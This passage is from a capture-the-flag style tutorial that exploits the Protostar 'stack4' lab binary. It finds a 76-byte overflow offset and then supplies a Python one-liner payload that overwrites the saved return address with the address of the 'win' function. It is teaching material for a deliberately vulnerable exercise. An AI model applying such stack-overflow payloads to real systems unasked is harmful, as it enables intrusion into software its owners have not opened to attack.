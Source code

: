 We will now target the return address of the main `eip` function. This address is stored on the stack at the beginning of the frame. The main point now is to find out how far we will have to go to overflow this variable. In order to do it, we will try to overflowing the buffer and increase the value until we get a segmentation error message.

```bash
cd /opt/protostar/bin
(python -c "print 'A' * 64") | ./stack4
(python -c "print 'A' * 68") | ./stack4
(python -c "print 'A' * 72") | ./stack4
(python -c "print 'A' * 76") | ./stack4
```

**Output**

![image-15](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-15.png "Image-15")

We did increase by 4 each time and we got the "Segmentation fault" error message when we did try to put a string of 76 characters. Considering this, we can say that after 76 bytes is the area that overwrites `eip`, so we will need 76 "A" and the address of `win` in Little Endian:

```bash
cd /opt/protostar/bin
objdump -x stack4 | grep "win"
```

**Output**

![image-16](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-16.png "Image-16")

Now that we got the `win` address, we just need to use Python to print 76 "A" then the address in Little Endian as the below example:

```bash
(python -c "print 'A' * 76 + '\xf4\x83\x04\x08'") | ./stack4
```

**Output**

![image-17](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-17.png "Image-17")

In this article, we saw several examples of buffer overflow on the stack where the objective was simply to change a variable or to jump on a function. In real life, we will rather try to execute what we want, through a shell. This will be the subject of our [next article](https://github.com/neoslab/tutorials/blob/master/articles/21301488d1528d66211d9f24a88ba783.md).

For more information on how this script works, I encourage you to watch the video below.

[![video-1](http://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)
